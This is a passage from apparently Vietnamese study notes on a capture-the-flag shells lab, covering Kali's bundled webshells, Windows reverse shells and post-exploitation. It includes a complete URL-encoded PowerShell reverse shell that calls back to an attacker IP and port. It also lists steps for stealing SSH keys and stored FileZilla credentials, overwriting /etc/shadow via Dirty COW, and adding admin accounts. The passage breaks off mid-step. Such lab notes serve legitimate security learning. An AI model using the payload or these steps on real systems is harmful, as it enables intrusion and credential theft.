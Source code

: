 Kali Linux cung cấp nhiều webshell mẫu tại /usr/share/webshells, bao gồm:

- PHP Reverse Shell: Một reverse shell hoàn chỉnh bằng PHP (ví dụ: php-reverse-shell.php).

- Lưu ý: Các webshell này thường được viết cho hệ thống Unix (Linux) và có thể không hoạt động trên Windows.

**Webshell trên Windows**

Đối với mục tiêu Windows, có thể sử dụng PowerShell Reverse Shell được mã hóa URL. Ví dụ:

    powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

Cách sử dụng:

- Thay thế < IP > và < PORT > bằng địa chỉ IP và cổng của máy tấn công.

- Dán vào tham số cmd trong URL để thực thi.

**Task 12: Next Steps**

Các shell reverse và bind thường không ổn định và không tương tác đầy đủ. Để cải thiện điều này, cần tìm cách chuyển sang các phương pháp truy cập "bình thường" hơn, chẳng hạn như SSH trên Linux hoặc RDP trên Windows.

**Trên Linux**

Tìm kiếm thông tin xác thực:

- Kiểm tra thư mục /home/< user>/.ssh để tìm khóa SSH.

- Tìm kiếm thông tin đăng nhập trong các tệp cấu hình hoặc lịch sử.

Khai thác lỗ hổng để leo thang đặc quyền:

- Sử dụng các lỗ hổng như Dirty COW để ghi đè lên tệp /etc/passwd hoặc /etc/shadow.

- Thêm tài khoản người dùng mới hoặc thay đổi mật khẩu của người dùng hiện có.

Sử dụng SSH:

- Nếu SSH đang mở, sử dụng thông tin đăng nhập hoặc khóa SSH để kết nối.

**Trên Windows**

Tìm kiếm thông tin xác thực:

- Kiểm tra sổ đăng ký (Registry) để tìm mật khẩu dịch vụ, chẳng hạn như VNC hoặc FTP.

- Ví dụ: FileZilla Server lưu thông tin đăng nhập trong tệp C:\Program Files\FileZilla Server\FileZilla Server.xml.

Thêm tài khoản người dùng:

- Nếu có quyền quản trị viên, thêm tài khoản mới và đưa vào nhóm Administrators:
